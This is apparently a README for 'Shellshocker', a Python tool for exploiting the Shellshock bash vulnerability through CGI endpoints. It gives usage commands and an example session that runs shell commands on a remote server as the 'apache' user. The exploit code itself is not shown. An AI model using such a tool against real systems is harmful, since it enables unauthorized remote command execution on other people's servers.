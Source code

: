 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"
  
  
  2. If you want to use it with proxy: "python shellshocker.py http://exam.com/cgi-bin/cat 192.168.1.5:3128"


  3. Write command and hit enter


  4. Get the output and back to 2 :)

### Requirements:
  1. Python  
  2. Smile

### Examples:
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
shellshock/command$ ls -lath /home

total 16K
dr-xr-xr-x. 22 root    root    4.0K Feb  9 21:14 ..
drwxrwxrwx.  2 bynarr  bynarr  4.0K Jan 27  2015 bynarr
drwx------   2 apophis apophis 4.0K Jan  2  2015 apophis
drwxr-xr-x.  4 root    root    4.0K Dec 30  2014 .

shellshock/command$ whoami

apache

shellshock/command$ ^C
Aborted / Invulnerable
```

